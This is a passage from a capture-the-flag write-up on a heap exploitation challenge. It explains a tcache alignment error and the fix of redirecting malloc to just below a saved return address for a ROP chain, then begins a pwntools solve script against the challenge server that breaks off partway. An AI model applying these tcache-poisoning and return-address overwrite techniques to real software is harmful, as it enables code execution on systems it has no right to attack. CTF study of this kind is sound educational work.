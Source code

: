 Huh? `unaligned tcache chunk detected` why?

It seems that we can't malloc to return an arbitrary pointer to the actual saved return pointer because it isn't 16 byte aligned.

To fix this I forced malloc to get a pointer to ret_ptr - 0x8 and fill those previous 8 bytes with junk data and proceed with the ROP chain as usual.

Here is the final solve script which worked on local and remote instances:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal")
libc = exe.libc
context.binary = exe
context.terminal = [ 'tmux', 'splitw', '-h' ]

heap = 0
timeout = 0.2 # Higher for remote connection
gs = '''
b * main+333
c
'''
def conn():
    if args.LOCAL:
        global timeout
        timeout = 0.05
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gs)
    else:
        r = remote("chal.amt.rs", 1346)

    return r


def main():
    r = conn()

    def create(idx, ksize, key, vsize, val):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'1')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(ksize).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(key)
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(vsize).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(val)

    def free(idx):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'4')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())

    def update(idx, val):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'2')
        print(r.clean(timeout=timeout).decode())
```
